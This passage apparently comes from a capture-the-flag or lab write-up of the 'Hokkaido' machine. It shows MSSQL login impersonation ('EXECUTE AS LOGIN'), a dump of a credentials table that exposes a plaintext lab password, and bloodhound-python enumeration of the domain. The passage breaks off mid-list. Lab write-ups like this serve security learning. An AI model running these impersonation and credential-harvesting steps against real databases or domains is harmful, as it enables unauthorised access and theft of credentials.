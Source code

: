![Hokkaido4.png](/assets/images/Hokkaido/Hokkaido4.png){: .responsive-image}

Now I didn't know this, but apparently we can impersonate a user on mssql. The commands are as follows: 
- `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
	- We are given the response of `hrappdb-reader` so: 
- `EXECUTE AS LOGIN = 'hrappdb-reader'`
- `USE hrappdb`

Then we can view the table names of the hrappdb database using this command: 
`SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;` which shows us the table of `sysauth`. 

![Hokkaido5.png](/assets/images/Hokkaido/Hokkaido5.png){: .responsive-image}

We can further enumerate by getting everything from that table: `SELECT * FROM sysauth;`, and we get what looks like credentials.

![Hokkaido6.png](/assets/images/Hokkaido/Hokkaido6.png){: .responsive-image}

At this point we can add `hrappdb-service:Untimed$Runny` to our creds.txt file, and use it to enumerate further. We can spend some time doing that, but it can help to run `bloodhound-python` with all of these credential sets and add the zip files to bloodhound. We run this for each of the three users we have creds for, info, discovery, and hrapp-service: `bloodhound-python -u "$user" -p '$pass' -d hokkaido-aerospace.com -c all --zip -ns 192.168.157.40`

After loading the results into bloodhound, we notice a few potentially important things:
